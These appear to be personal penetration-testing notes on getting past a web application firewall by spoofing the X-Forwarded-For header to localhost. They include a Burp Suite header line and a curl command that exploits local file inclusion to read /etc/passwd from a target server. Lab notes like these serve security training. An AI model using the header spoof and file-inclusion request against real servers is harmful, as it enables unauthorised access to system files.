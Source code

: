```yaml
---
category: Uncategorized
tags: []
---
```

### WAF Web Application Firewall

![[Pasted image 20220307105734.png]]

WAF: Access Denied for this Host.


X-Forwarded-For Header

"The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."

```burpsuite - kali
X-Forwarded-For: 127.0.0.1
```

Ensure we have TWO blank lines under this (lines 8 and 9 in photo)

![[Pasted image 20220307111047.png]]

LFI
![[Pasted image 20220307120119.png]]

```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

[[3._LFI RFI]]

#### Examples

[[GraphQL Graphiql]]



















